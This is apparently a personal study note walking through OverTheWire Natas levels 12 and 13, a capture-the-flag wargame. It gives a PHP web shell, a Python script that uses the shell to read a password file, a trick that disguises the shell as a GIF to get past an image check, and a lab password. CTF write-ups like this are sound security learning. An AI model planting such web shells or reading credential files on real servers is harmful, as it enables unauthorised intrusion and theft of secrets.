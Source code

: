 
2024-07-14 18:54

Source:   #natas #web #py 

Tags: [[Local File Inclusion & Command Injection]]
## Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```php
<?php
	system($_GET['c']);
?>
```

```python
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.
## Natas13

similar to natas12, here we have a `php` module named `exif_imagetype` that [[image upload]]checks if the file uploaded is an image and within the size limit of 1kb 

`exif_imagetype` checks for file signatures

we add `GIF89a` at the start of our payload `php` file making the contents of the file as 
```php
GIF89a
<?php
system($_GET['c']);
?>
```

rest of the process is same as natas12

### References
https://www.youtube.com/watch?v=fqwxYowJA0c
